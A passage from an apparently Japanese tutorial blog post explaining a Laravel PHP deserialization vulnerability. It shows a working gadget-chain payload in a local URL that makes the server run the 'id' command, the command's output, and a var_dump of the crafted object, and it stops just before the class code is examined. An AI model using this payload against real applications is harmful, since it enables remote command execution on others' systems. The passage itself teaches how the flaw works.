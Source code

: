    次はこのURLでアクセスしてみます。
<div class="md-code" style="width:100%">
<pre style="white-space: pre-wrap;">
http://127.0.0.1:8000/?info=O:40:%22Illuminate\Broadcasting\PendingBroadcast%22:2:{S:9:%22%00*%00events%22;O:15:%22Faker\Generator%22:1:{S:13:%22%00*%00formatters%22;a:1:{S:8:%22dispatch%22;S:6:%22system%22;}}S:8:%22%00*%00event%22;S:2:%22id%22;}
</pre>
</div>

　OSコマンド実行されました。idコマンドの結果が表示されています。  
<pre style="white-space: pre-wrap;">
uid=501(admin) gid=20(staff) groups=20(staff),502(access_bpf),12(everyone),61(localaccounts),79(_appserverusr),80(admin),81(_appserveradm),98(_lpadmin),401(com.apple.sharepoint.group.1),33(_appstore),100(_lpoperator),204(_developer),395(com.apple.access_ftp),398(com.apple.access_screensharing),399(com.apple.access_ssh)
Dummy Name (999)
</pre>

#### OSコマンド呼び出し部分の確認

　このコードには`__wakeup()`関数も存在しておらず、さらにはOSコマンド呼び出し関数も存在していないのになぜOSコマンドが実行されたのでしょうか。どの部分で実行されたのでしょうか。  
  
　デシリアライズで生成されたオブジェクトを見てみるとその原因が分かります。  
`$info`をvar_dump()で見てみます。

```
object(Illuminate\Broadcasting\PendingBroadcast)#185 (2) {
  ["events":protected]=>
  object(Faker\Generator)#180 (2) {
    ["providers":protected]=>
    array(0) {
    }
    ["formatters":protected]=>
    array(1) {
      ["dispatch"]=>
      string(6) "system"
    }
  }
  ["event":protected]=>
  string(2) "id"
}
```

　<b>この出力情報をもとに生成されたオブジェクトを簡単に説明すると以下のようになります。</b>

- Illuminate\Broadcasting\PendingBroadcast クラスのオブジェクト
- PendingBroadcastオブジェクト events変数 には Faker\Generatorクラスのオブジェクト
  - Generatorオブジェクト formatters変数 には 連想配列（["dispatch" => "system"]）
- PendingBroadcastオブジェクト event変数 には「"id"」の文字列

　急に出てきた「<span class="m-y">PendingBroadcastクラス</span>」と「<span class="m-y">Generatorクラス</span>」とは何でしょうか。  
このクラスは Laravel プロジェクト作成時に含まれるクラスです (vendor/ 配下にあります)。そして、このクラスを使う・使わないに関わらず参照することが可能なクラスです。  
  
　この2つのクラスの中身を見てみるとなぜOSコマンドが実行されたのかが分かるはずです。  
では実際に見ていきます。下に記述しているコードは本脆弱性に関係ある部分を抜粋したものです。
